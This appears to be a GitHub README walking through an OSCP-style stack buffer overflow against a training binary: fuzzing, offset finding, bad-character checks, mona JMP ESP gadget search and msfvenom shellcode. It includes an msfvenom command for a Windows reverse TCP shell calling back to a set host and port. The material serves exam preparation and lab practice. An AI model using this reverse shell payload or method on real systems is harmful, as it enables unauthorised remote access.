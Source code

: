 # OSCP-like-buffer-overflow
OSCP-like buffer overflow

* Immunity Debugger http://www.immunityinc.com/products/debugger/
* Mona.py https://github.com/corelan/mona

To avoid the error message saying "The program can't start because VCRUNTIME140.dll is missing from your computer", make sure whether you have the x86 version of Microsoft Visual C++ Redistributable preinstalled on your Windows virtual machine.
Once we've got everything prepared, we can fire up the Immunity Debugger and open our target binary.

## 1. Fuzzing the binary
Firstly, we can run the `hello.py` script to verify whether the application responds to us (not necessary)

Then we run the `fuzzer.py` script to identify the crashing point

## 2. Calculating the offset from stack pointer
After finding the crashing point, we will calculate the offset to the EIP address. Start with generating a string with the pattern_create.rb (/usr/share/metasploit-framework/tools/exploit/pattern_create.rb)
```
ruby pattern_create.rb -l 1024
```

Use the pattern_offset
```
ruby pattern_offset.rb -q 39653138
```

## Determining Badchars
In this particular case, the vulnerable function is *sprintf* (it handles strings). Given the fact that ASCII strings are terminated with a null-byte ("\x00"), we put it at the top of the list.
The newline character is used by handleConnection() to chunk the messages we send to it. 
So the starting point for our badchars is "\n" alternatively known as "\x0A"

To be sure that we haven't missed any other we will utilize our python script `badchars.py`.

To identify badchars we can also use `!mona bytearray`

## Identifying JMP ESP gadget
After determining the badchars of the application, we will go straight to identification of the JMP ESP that will be responsible for changing the natural flow of application to run our shellcode (which we will insert into the stack).

In assembly, the OPCODE for JMP ESP is `\xff\xe4`. Using mona we will locate the register in the application that points to this OPCODE. Thanks to that, we can change the flow o the application to run our shellcode, rewriting the stack from its base (EBP).

`!mona modules` to identify the unprotected modules

`!mona find -s "\xff\xe4"` to identify which of these pointers have the OPCODE for JMP ESP

Run `!mona jmp -r esp -cpb "\x00\x0A"` to identify which pointers do not have the badchars found.

At this point we might be in possesion of the correct JMP ESP address. If we want to check, we simply run `!mona find -s "\xff\xe4" -m dostackbufferoverflowgood.exe` directly on the identified vulnerable module.

## Generating shellcode
Now it's time to come up with some interesting bytecode to put on the stack. Metasploit has a built-in tool called msfvenom that can produce shellcode for us.
```
msfvenom -p windows/exec --list-options
```

![](https://raw.githubusercontent.com/d15rup7or/OSCP-like-buffer-overflow/master/img/msfvenom%20-p%20windowsexec%20--list-options.PNG)

For the purpose of the training, we will provide the following options to msfvenom:
* -p windows/exec (we want Windows shellcode that will execute a command)
* -b '\x00\x0A' (the list of bad characters we determined earlier, so that msfvenom can avoid having them in the generated shellcode
* -f python (output shellcode in a Python-friendly format)
* CMD=calc.exe EXITFUNC=thread (options for the windows/exec payload - in this case starting the calc.exe)

```
msfvenom -p windows/exec -b '\x00\x0A' \ -f python --var-name shellcode_calc CMD=calc.exe EXITFUNC=thread
```

**** For reverse shell connection:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.21.128 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"
```
The shellcode contains machine code for a function that invokes a shell. The goal is to copy it into the buffer variable and then overwrite the return address

`EXITFUN=thread` preventes the shellcode from crashing the application when executing our shellcode

Now we just insert the msfvenom output in our exploit.py and run it against our application to gain access to the system exploiting the Buffer Overflow
